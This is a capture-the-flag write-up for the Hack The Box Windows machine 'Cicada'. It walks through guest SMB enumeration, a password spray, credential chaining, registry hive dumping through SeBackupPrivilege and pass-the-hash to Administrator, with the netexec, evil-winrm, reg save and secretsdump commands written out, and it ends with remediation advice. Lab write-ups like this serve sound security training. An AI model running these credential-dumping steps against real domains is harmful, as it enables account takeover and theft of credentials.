










# HTB — Cicada (Easy, Windows)

## Overview

Cicada is an easy Windows Active Directory machine centred on credential discovery. A guest SMB session exposes a share containing a default company password, which is used in a password spray to gain a foothold. Credentials chained from an LDAP description field and a PowerShell script lead to a WinRM user holding `SeBackupPrivilege`. That privilege is abused to back up the registry hives, dump the Administrator's NTLM hash, and authenticate via pass-the-hash.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC 10.129.103.35
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb)
445/tcp  open  microsoft-ds?
636/tcp  open  ssl/ldap      cicada.htb
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
Service Info: Host: CICADA-DC; OS: Windows
````

The target is the domain controller `CICADA-DC` for `cicada.htb`, with SMB and WinRM exposed.

## Foothold

### Guest SMB enumeration

Listing SMB shares with a guest session revealed several non-default shares:

````
$ netexec smb 10.129.103.35 -u 'guest' -p '' --shares
````



The `HR` share was readable and contained `Notice from HR.txt`, which disclosed a default onboarding password:



### Password spray

Enumerating domain users (via RID brute-forcing) and spraying the default password against them returned one valid account:

````
$ netexec smb 10.129.103.35 -u users.txt -p '<DEFAULT_PASSWORD>'
````



### Credential chaining

Authenticated enumeration of user objects exposed another account's credentials stored in an LDAP description field:



Those credentials granted access to the `DEV` share:



It held a PowerShell backup script containing the cleartext password for `emily.oscars`:



### WinRM access

`emily.oscars` is a member of the Remote Management Users group, allowing a WinRM session:

````
$ evil-winrm -i 10.129.103.35 -u emily.oscars -p '<REDACTED>'
````



## Privilege Escalation

### SeBackupPrivilege → hive dump → pass-the-hash

The account holds `SeBackupPrivilege`, which grants read access to any file for backup purposes — including the registry hives that store credential material:



I backed up the `SAM` and `SYSTEM` hives, transferred them, and dumped the hashes offline, recovering the Administrator's NTLM hash:

````
*Evil-WinRM* PS> reg save HKLM\SAM sam.hive
*Evil-WinRM* PS> reg save HKLM\SYSTEM system.hive
$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
````



Passing the hash authenticated as Administrator:

````
$ evil-winrm -i 10.129.103.35 -u Administrator -H <REDACTED>
````



````
*Evil-WinRM* PS> whoami
cicada\administrator
````

## Remediation

- **Guest SMB access:** Disable the guest account and anonymous share enumeration.
- **Credentials in shares / descriptions / scripts:** Never store passwords in file shares, AD description fields, or plaintext scripts; rotate any that were exposed.
- **Password reuse / default passwords:** Enforce unique passwords and require a change on first logon.
- **SeBackupPrivilege:** Grant backup privileges only to dedicated, tightly controlled backup accounts; monitor hive access on domain controllers.
````
````
